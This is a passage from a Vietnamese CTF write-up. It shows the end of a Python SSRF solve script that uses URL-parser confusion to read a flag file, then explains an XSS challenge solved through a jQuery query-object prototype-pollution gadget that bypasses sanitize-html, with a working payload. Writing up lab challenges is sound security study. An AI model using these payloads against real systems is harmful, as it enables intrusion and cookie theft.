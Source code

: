 ```py
                break
        if "#" in flag_name:
            break
    return flag_name[:-1]

def getFlag():
    full_dir = f'/tmp/{getDir()}/{getFile()}'
    print(f"Full_dir: {full_dir}")
    params = {'host':f'http://foo@localhost:80@google.com/dir.php?file={full_dir}'}
    r = requests.get(url, params=params)
    print(r.text)

getFlag()
```
Flag:

![image](https://user-images.githubusercontent.com/54855855/146809793-04f85675-0d45-4d70-88d0-0494aea7fa80.png)

## Challenge xss for newbie
Tên bài là cho newbie nhưng thực sự không dành cho newbie chút nào >< Mình đã stuck khá lâu ở bài này từ đoạn trigger cho đến bước có thể steal cookie.

Bài này không được cung cấp source và cũng không có chỗ input để xss như mấy bài xss mình thường làm, chỉ có 1 chỗ để report url cho bot. Nhưng khi `view-source` thì thấy được có 1 đoạn code js như sau:

```js
let html = window.location.search.substr(1).split("&")[0].split("=")[1] ? window.location.search.substr(1).split("&")[0].split("=")[1] : "<h1>hello</h1>";
  document.write(sanitizeHtml(decodeURIComponent(html)));
  console.log(sanitizeHtml(decodeURIComponent(html)));
```

- Đoạn code chỉ có chức năng nếu có tham số thứ nhất truyền vào thì sẽ in ra giá trị đó. Nhưng trước khi in ra thì có đưa vào hàm `sanitizeHtml` để chống xss.

### IDEA
- Ban đầu mình cứ chăm chăm vào hàm `sanitizeHtml` và phải đi tìm nó, tìm cách bypass để có thể trigger được xss
- Sau một hồi thì mình đọc lại `view-source` thì thấy được tác giả có include lib bên ngoài vào để sử dụng.

    ![image](https://user-images.githubusercontent.com/54855855/146814252-a4719471-26d8-4507-80e4-2ca0c0fe4a86.png)

- Tới đây thì mình tự dưng thấy cái lib include vào quen quen, mình từng gặp trong 1 bài ctf cách đây không lâu.
- Mình đã mò lại và thấy cái này khá giống với bài [jQuery query-object plugin](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/jquery-query-object.md)
- Mình cố gắng tìm thêm 1 hồi nữa thì ở trong này thì thấy được gadget để sử dụng trigger xss [sanitize-html](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/sanitize-html.md)
- Khi đã đầy đủ thông tin thì bây giờ mình test thôi với payload
    ```
    ?test=<a>&__proto__[innerText]=<script>alert(1)</script>
    ```
    ![image](https://user-images.githubusercontent.com/54855855/146814928-1844ef34-ba26-42a0-b7a2-42ec3d134d1f.png)
